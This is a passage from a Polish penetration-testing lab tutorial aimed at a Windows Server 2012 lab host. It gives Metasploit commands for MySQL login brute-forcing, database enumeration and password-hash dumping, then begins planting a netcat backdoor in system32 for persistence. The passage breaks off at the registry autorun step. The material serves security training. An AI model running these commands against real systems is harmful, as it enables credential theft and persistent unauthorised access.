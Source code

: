 ```
> use auxiliary/scanner/mysql/mysql_login
> set RHOSTS <WinServer2012 IP>
> set USER_FILE /root/usernames.lst
> set PASS_FILE /root/passwords.lst
> set THREADS 8
> set STOP_ON_SUCCESS true
> run
```
W wyniku powinniśmy otrzymać login oraz hasło konta na które możemy się zalogować.
Przed połączeniem się z bazą danych wykorzystamy dodatkowe moduły do enumeracji bazy danych oraz zrzutu loginów i haszy haseł z serwera.
```
> use auxiliary/admin/mysql/mysql_enum
> set RHOST <WinServer2012 IP>
> set USERNAME <login>
> set PASSWORD <password>
> run
```
Następnie wykonamy dump haszy haseł z bazy:
```
> use auxiliary/scanner/mysql/mysql_hashdump
> set USERNAME <login>
> set PASSWORD <password>
> set RHOSTS <IP>
> run
```
Teraz możemy połączyć się z bazą:
`# mysql –h <WinServer2012 IP> -u root –p`
W wyniku powinniśmy otrzymać:
`mysql>`
Gdy mamy już dostęp, możemy zobaczyć jakie bazy danych są przechowywane na
serwerze:
`mysql> show databases;`
Za pomocą poleceń `use, show databases, show tables` możemy eksplorować zawartośc serwera baz danych.
Np, możemy przejżeć hasze haseł użytkowników wykonując zapytanie select na bazie mysql:
```
mysql> select User,Password from user;
```
# UTRZYMANIE DOSTĘPU

## Ćwiczenie 1 – Netcat
>**Zasoby:**
Kali Linux , WinServer2012

Jednym ze sposobów by utrzymac dostęp do maszyny ofiary jest intalacja backdoora na hoście. 
Do tego celu posłużymy sie narzędziem **netcat**, dzięki któremu przygotujemy zdalny dostęp do maszyny ofiary:
* Gdy dostaliśmy się już do system, musimy wrzucić netcata na hosta:
```
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\WINDOWS\\system32
```
* Gdy mamy juz netcata, chcemy aby uruchamiał się on automatycznie. W tym celu musimy dodać wpis do rejestru:

